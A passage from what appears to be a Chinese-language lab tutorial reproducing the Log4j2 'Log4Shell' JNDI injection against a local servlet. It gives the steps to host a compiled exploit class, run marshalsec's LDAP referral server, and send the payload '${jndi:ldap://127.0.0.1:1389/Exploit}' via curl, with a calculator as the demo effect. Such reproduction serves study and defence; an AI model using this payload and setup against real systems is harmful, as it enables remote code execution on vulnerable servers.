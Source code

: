 打印一段话并弹出系统计算器。

之后用javac在当前目录编译生成.class文件。

注意：Javac的jre版本也要与JavaWeb环境对应，否则无法运行。

### 3. **搭建JNDI+LADP服务**

搭建JNDI服务首先要有简单的文件管理服务可供下载，用python内置的简单http服务器在8080端口搭一个：

```shell
python3 -m http.server 8080
```

 搭建JNDI用GitHub上开源的JNDI服务**marshalsec**即可，git clone拉取源码，根据[README操作](https://www.github.com/mbechler/marshalsec/blob/master/marshalsec.pdf)：

```shell
mvn clean package -DskipTests
```

在生成的target目录：

```shell
Java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8080/#Exploit
```

注意：后面的本地IP 127.0.0.1若在虚拟机中会与宿主机冲突，需要用http://localhost:8080。

对于以上环境，完成RCE的payload为（1389为**marshalsec**默认端口）:

`${jndi:ldap://127.0.0.1:1389/Exploit}`

最后用hackerBar或者postman等工具发起http请求即可。

我懒得再用工具，直接在命令行用curl：
```bash
curl -X POST http://localhost/Log4j2Servlet -d 'username=${jndi:ldap://127.0.0.1:1389/Exploit}'
```
效果如下：

![image-20221221000613839](https://i.328888.xyz/2022/12/25/DxJyv.png)
